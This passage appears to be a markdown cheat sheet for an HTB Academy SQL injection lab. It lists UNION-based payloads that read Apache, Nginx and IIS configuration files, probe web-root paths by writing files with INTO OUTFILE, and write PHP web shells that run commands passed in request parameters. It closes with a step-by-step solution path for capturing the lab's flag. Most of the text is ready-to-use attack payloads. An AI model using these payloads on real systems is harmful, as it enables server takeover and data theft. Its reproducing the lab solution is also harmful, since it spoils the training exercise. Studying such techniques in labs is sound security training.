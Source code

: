 #### Binary Data Writing
```sql
-- For binary files/advanced payloads
cn' UNION SELECT "", FROM_BASE64("base64_encoded_payload"), "", "" into outfile '/var/www/html/binary.php'-- -
```

### Web Root Discovery Techniques

**When /var/www/html doesn't work:**

#### Configuration File Analysis
```sql
-- Apache configuration
cn' UNION SELECT 1, LOAD_FILE("/etc/apache2/apache2.conf"), 3, 4-- -
cn' UNION SELECT 1, LOAD_FILE("/etc/apache2/sites-enabled/000-default"), 3, 4-- -

-- Nginx configuration  
cn' UNION SELECT 1, LOAD_FILE("/etc/nginx/nginx.conf"), 3, 4-- -

-- IIS configuration (Windows)
cn' UNION SELECT 1, LOAD_FILE("C:\\Windows\\System32\\inetsrv\\config\\applicationHost.config"), 3, 4-- -
```

#### Common Web Root Locations
```sql
-- Try different paths until one works
cn' UNION SELECT "","test","","" into outfile '/var/www/test.txt'-- -      # Ubuntu/Debian
cn' UNION SELECT "","test","","" into outfile '/var/www/html/test.txt'-- -  # Apache default
cn' UNION SELECT "","test","","" into outfile '/usr/share/nginx/html/test.txt'-- - # Nginx
cn' UNION SELECT "","test","","" into outfile '/opt/lampp/htdocs/test.txt'-- -     # XAMPP
cn' UNION SELECT "","test","","" into outfile 'C:\\inetpub\\wwwroot\\test.txt'-- - # IIS
```

### Quick Reference: File Writing Payloads

```sql
-- Test write permissions
cn' UNION SELECT 1,'test',3,4 into outfile '/var/www/html/proof.txt'-- -

-- Deploy web shell (clean output)
cn' UNION SELECT "","<?php system($_REQUEST[0]); ?>","","" into outfile '/var/www/html/shell.php'-- -

-- Alternative web shell
cn' UNION SELECT "","<?php system($_GET['cmd']); ?>","","" into outfile '/var/www/html/cmd.php'-- -
```

**HTB Academy Solution Path:**
1. ✅ Verify secure_file_priv (empty = unrestricted)
2. ✅ Test write with proof.txt
3. ✅ Deploy shell.php with clean output  
4. ✅ Execute commands via ?0= parameter
5. ✅ Find and read flag file

---